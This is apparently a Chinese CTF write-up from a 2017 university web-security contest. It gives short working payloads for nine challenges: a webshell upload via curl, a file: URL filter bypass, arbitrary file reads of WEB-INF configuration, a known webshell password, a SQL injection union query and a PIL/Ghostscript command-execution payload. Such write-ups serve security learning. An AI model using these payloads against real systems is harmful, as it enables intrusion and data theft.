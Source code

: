 ```yaml
---
title: 2017 全国大学生软件测试大赛web安全赛分区决赛 WriteUp
tags:
  - CTF
  - WriteUp
talk: true
date: 2017-10-24 13:40:13
---
```


周末去广州水了一波，比赛的时候做出来7道题，赛后补上2、3两题，下面是前9题的WriteUp，期待大佬的第10题WriteUp
<!-- more -->

## 1.host
在burpsuite中修改host为`www.mooctest.net`
![](/img/2017-mooctest-sec-1.png)

## 2.Babyupload
扫描得到upload.php，本地构造upload.html
```php
<html>
<head>
<meta charset="utf-8">
</head>
<body>

<form action="http://114.55.36.69:46012/upload.php" method="post" enctype="multipart/form-data">
    <label for="upfile">文件名：</label>
    <input type="file" name="upfile" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```
比赛的时候死活猜不出文件参数名，file、upload、uploadfile都试过，赛后经大佬提醒才知道是`upfile`  
也可以直接用curl上传文件，学到了
```
curl http://114.55.36.69:46012/upload.php -F "upfile=@x.php"
```
上传后菜刀连接，查看web目录下的flag.php拿到flag
![](/img/2017-mooctest-sec-2.png)

## 3.curl
过滤了`file:`后面的`/`，把`/`转成`0x2f`  
```
http://114.55.36.69:46013/index.php?url=file:0x2f0x2f/var/www/html/index.php
```
![](/img/2017-mooctest-sec-3.png)

## 4.war
根据题目提示，下载trick-or-treat.war
![](/img/2017-mooctest-sec-4.png)

## 5.readme2
在js文件里发现
```
http://114.55.36.69:46015/test/show.do?page=help.jsp
```
猜测是任意文件读取，读取javaweb工程的`WEB-INF/web.xml`文件
![](/img/2017-mooctest-sec-5.png)
接着读取`WEB-INF/properties/configInfo.properties`
![](/img/2017-mooctest-sec-6.png)
发现`key.jsp`，读取`key.jsp`
![](/img/2017-mooctest-sec-7.png)

## 6.source ip
去fofa搜标题，试了三四个就试出来了，听说还有发邮件姿势更优雅
![](/img/2017-mooctest-sec-8.png)

## 7.hackedsite
扫描得到
```
http://118.178.18.181:46017/upload/phpspy.php
```
百度搜索phpspy得到密码`angle`，连接大马拿到flag
![](/img/2017-mooctest-sec-9.png)

## 8.babysql3
name字段存在注入，构造
```
keyname=1&name=name` union select 1,2,flag from flag %23
```
![](/img/2017-mooctest-sec-10.png)

## 9.snake
提示了`PIL-RCE`
参考https://github.com/neargle/PIL-RCE-By-GhostButt/blob/master/Exploiting-Python-PIL-Module-Command-Execution-Vulnerability.md
构造poc文件中的代码为
```
(%pipe%cat /var/www/Flask/flag > tmp/fffffff.png)
```
上传得到flag
![](/img/2017-mooctest-sec-11.png)

## 10.thinkphp5
无




